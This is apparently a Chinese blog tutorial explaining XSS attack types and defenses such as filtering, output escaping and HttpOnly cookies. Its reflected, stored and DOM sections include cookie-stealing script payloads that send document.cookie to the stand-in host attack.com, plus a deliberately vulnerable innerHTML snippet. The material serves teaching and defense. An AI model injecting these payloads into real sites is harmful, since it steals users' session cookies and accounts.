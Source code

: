 ```yaml
---
title: 什么是 XSS 攻击？
date: 2020-11-20 20:39:27
sidebar: auto
tags:
  - xss
  - 浏览器安全
categories:
  - 浏览器
---
```


## 什么是 XSS

`XSS` 也称跨站脚本攻击，简单的来说就是当一个目标的站点被我们用户去访问，在渲染 HTML 这个过程中呢，出现了一些没有预期到的脚本指令，然后呢就会执行，这个时候呢，就产生了一个 XSS 的攻击。

`XSS` 攻击就是在用户访问这个页面的时候，插入一些自己的脚本。脚本让用户在访问这个页面的时候就可以执行这个脚本，攻击者通过插入的脚本执行呢，去获得用户的一些信息，比如说 cookie 发送到攻击者自己的网站，这就是跨站。

## XSS 分类

![](https://alvin-cdn.oss-cn-shenzhen.aliyuncs.com/images/xss.png)

### 反射型

访问地址如 `http://127.0.0.1:5500/index.html?keyword=<script>alert(1)</script>`。或者 `<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>`

```html
<div>
  您搜索的关键词
  <span id="keyword"></span>
  结果如下：;
</div>
<script>
  window.onload = function () {
    const searchParams = new URLSearchParams(window.location.search);
    document.getElementById('keyword').innerHTML = searchParams.get('keyword');
  };
</script>
```

注意，在 chrome 内无效，实际上 chrome 已经帮我们拦截掉这个攻击了。造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，

### 存储型

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致.

### DOM 型

如，读取 cookie， `?keyword=<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>`

## XSS 产生原因以及预防

部分的过滤实际上是没有办法实现的，因为攻击者有各种各样神奇的代码，你完全想象到有一群黑客，他们专门就是研究这些东西，研究如何去绕过，你服务器的过滤，最典型的就是对我们的 url 输入参数做各种各样的编码来绕过我们的 XSS 过滤，那既然知道他是如何去产生的，我们在程序中应该如何去防御它呢？XSS 防御的总体思路呢，就是对输入做一个过滤，对输出做一个编码，同时呢，把我们的用户可以设置为一个 HTTP-only，也就是我要对所有提交的内容做一个过滤，要对 url 中的参数做一个过滤，要过滤掉那些会导致脚本执行的相关内容。然后呢，对动态输出的页面的那些内容呢，做一个 HTML 的编码，让这个脚本没有办法在浏览器中执行，虽然这个输入过滤呢能够被绕过，我们如果这样处理的话呢，还是能够拦截一大部分的 XSS 攻击，但我们如何对这个输入和输出，做一个处理呢，那一般的思路是这样，我觉得。

#### 输入处理

包括用户输入、URL 参数、POST 请求、ajax

> 黑名单的过滤策略

我们刚才说的那个 alert 它能够弹出来呢，是因为首先我们有这种 `script` 的标签对吧，里面有一个 `alert1` 所以呢，我们在输入的时候需要将这个脚本做一个过滤，如何去过滤呢？我将这一段给它替换掉，中间呢，只留着一个，那么你就没有办法去输出了，我们说的这种方式呢，是一种**黑名单的过滤策略**。，黑名单就是列出那些不能出现的脚本清单，一旦我们遇到这样的呢，去进行处理，还有一种是白名单的过滤。

> 白名单的过滤策略

比如姓名输入：大小只有 6 到 14 位，并且呢是字母和数字，还有下划线，所以呢，其他的任何输入它都是非法的，都会被我们丢弃掉，很显然，如果你使用我刚才说的白名单这种方式呢，你可以百分百的拦截所有的 XSS 攻击，但是呢，现实情况一般是不能够进行这么严格的白名单过滤的你，比如说我们要回复一个帖子，我们是很难预测到用户到底想出什么东西的，所以呢，对服务的处理可能就要分情况了，比如说像用户名密码，这种我们就可以使用白名单这种策略，但是呢，像富文本编辑器里面用户输什么，实际上是不知道的，只能根据情况去不断的调整，那么输出如何去处理呢？输出处理。

#### 输出处理

转义

#### cookie

HTTP-only，禁止 document.cookie 的读取！
